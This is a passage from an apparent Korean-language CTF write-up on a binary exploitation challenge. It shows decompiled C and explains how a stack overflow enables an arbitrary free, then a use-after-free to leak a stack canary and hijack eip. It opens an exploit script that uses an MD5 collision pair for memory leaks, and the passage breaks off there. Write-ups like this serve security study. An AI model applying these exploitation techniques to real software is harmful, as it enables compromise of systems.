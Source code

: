 따라서 다른 취약점이 필요하다.

### Use-After-Free
``` c
int broadcast_1DA7()
{
  ...
  char stack_buf[1024]; // [esp+24h] [ebp-414h] BYREF
  size_t size; // [esp+424h] [ebp-14h]
  void *contents; // [esp+428h] [ebp-10h]
...
      for ( i = 0; ; ++i )
      {
        tmp = fgetc(fd);
        if ( tmp == (char)'\xFF' )
          break;
        stack_buf[i] = tmp;
      }
    ...
    if ( size > 0x3ff )
      free(contents);
    ...
}
```
직전의 stack overflow 취약점을 이용하면 `size`와 `contents`를 조작할 수 있다.

마찬가지로 직전의 leak을 잘 수행했다면 heap에 대한 주소값이 있으므로, `size`를 0x3ff보다 큰 값으로 조작하고 offset을 계산해서 `contents`값을 조작하면 heap의 아무 chunk나 `free()`할 수 있게된다.

이렇게 `free`된 chunk는 bin으로 가서 같은 사이즈의 `malloc()`요청이 있을 때 그대로 사용되므로 우리가 원하는 길이만큼 `malloc()`을 할 수 있는 부분을 찾아보면,
``` c
int register_18B0()
{
  ...
  read(0, src, 256u);
      ...
      name_ptr = (size_t)malloc(src_len + 1);
      movie_new->name = (char *)name_ptr;
      strcpy(movie_new->name, src);
      ...
}
```
`register()`에서 `movie`의 이름을 저장하기 위한 `name_ptr`의 사이즈를 우리가 조절할 수 있고, 내용도 입력할 수 있다.

따라서 UAF 취약점이 발생하게 되며, 이를 이용해서 `canary`를 leak할 것이다.

이후에는 다시 stack overflow 취약점을 이용해서 eip control을 하면 된다.

## 0x02. Exploit
가장 먼저 할 것은 md5 collision을 이용한 stack leak이다.
``` python
    # md5 collision - 79054025255fb1a26e4bc422aef54eb4
    a1 = bytes.fromhex('d131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70')
    a2 = bytes.fromhex('d131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70')

    # stack, heap, libc leak
    register(s, a1, 1, 0x3ff, b"A" * 0x3ff)          # index 1
    register(s, a2, 1, 0x400, b"\xff" * 0x400)       # index 2

    l = listen(7777)
```